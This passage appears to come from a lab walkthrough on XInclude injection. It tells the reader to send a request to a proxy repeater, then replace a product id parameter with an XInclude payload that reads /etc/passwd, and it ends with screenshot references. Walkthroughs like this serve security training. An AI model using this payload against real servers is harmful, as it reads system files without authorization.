 Send the request to repeater

**Step3:**

Change product id parameter to

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

<img src="images/image12.png" alt="third" width="500">

<img src="images/image13.png" alt="third" width="500">
